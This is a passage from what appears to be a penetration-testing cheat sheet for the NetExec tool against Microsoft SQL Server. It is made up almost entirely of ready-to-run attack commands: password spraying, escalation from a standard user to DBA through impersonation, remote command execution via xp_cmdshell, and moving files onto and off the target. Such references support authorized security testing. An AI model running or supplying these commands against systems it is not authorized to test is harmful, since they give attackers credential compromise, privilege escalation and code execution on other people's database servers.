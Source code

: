 Ports can be also be specified:

```bash
nxc mssql <target> -u <user> -p <pass> --port <port>
```
{% endtab %}

{% tab title="Pass Spray" %}
{% code overflow="wrap" %}
```bash
nxc mssql <target> -u userfile -p passwordfile --no-bruteforce --continue-on-success
```
{% endcode %}
{% endtab %}

{% tab title="PrivEsc" %}
From standard user to DBA:

```bash
# Check if possible
nxc mssql <ip> -u user -p password -M mssql_priv

# Impersonate
nxc mssql <ip> -u user -p password -M mssql_priv -o ACTION=privesc

# Rollback
nxc mssql <ip> -u user -p password -M mssql_priv -o ACTION=rollback
```
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```bash
# Remote queries
nxc mssql <target> -u <user> -p <pass> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'

# System RCE via xp_cmdshell
nxc mssql <target> -u <user> -p <pass> --local-auth -x whoami
```
{% endcode %}
{% endtab %}

{% tab title="Transfers" %}
{% code overflow="wrap" %}
```bash
# Upload
nxc mssql <target> -u <user> -p <pass> --put-file /tmp/users C:\\Windows\\Temp\\whoami.txt

# Download
nxc mssql <target> -u <user> -p <pass> --get-file C:\\Windows\\Temp\\whoami.txt /tmp/file
```
{% endcode %}
{% endtab %}
{% endtabs %}

## FTP
